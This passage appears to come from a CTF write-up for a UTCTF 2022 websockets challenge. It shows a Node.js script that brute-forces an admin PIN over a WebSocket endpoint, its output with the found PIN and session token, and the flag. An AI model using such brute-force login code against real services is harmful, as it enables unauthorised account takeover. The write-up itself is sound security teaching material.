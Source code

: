 989","990","991","992","993","994","995","996","997","998","999"]

for (let step = 0; step < pins.length; step++) {
  checkPassword(pins[step]);
}

function checkPassword(maybePin) {
	//evt.preventDefault();
	const socket = new WebSocket("ws://web1.utctf.live:8651//internal/ws")
	socket.addEventListener('message', (event) => {
		if (event.data == "begin") {
			socket.send("begin");
			socket.send("user admin")
			socket.send("pass "+maybePin)
		} else if (event.data == "baduser") {
			console.log("Unknown user");
			socket.close()
		} else if (event.data == "badpass") {
      // uncomment for verbose
      //console.log("Incorrect PIN");
			socket.close()
		} else if (event.data.startsWith("session ")) {
      console.log("Found the pin:");
      console.log(maybePin);
			console.log("flask-session=" + event.data.replace("session ", "") + ";");
			//document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
			socket.send("goodbye")
			socket.close()
			///window.location = "/internal/user";
		} else {
			console.log("Unknown error");
			//document.querySelector(".error").innerHTML = "Unknown error";
			socket.close()
		}
	})
}
{{< /highlight >}}


Saving the above to `login.js` and running with `node login.js`, we find the pin:

```text
node login.js

Found pin:
907
flask-session=eyJ0eXAiOiJKV1QiLC...
```

Logging in with `admin:907`, we get the flag:

{{< image src="/img/CTFs/2022/utctf2022/websockets_flag.png" alt="websockets_flag" position="center" style="border-radius: 8px;" >}}

Flag is `utflag{w3bsock3ts}`.
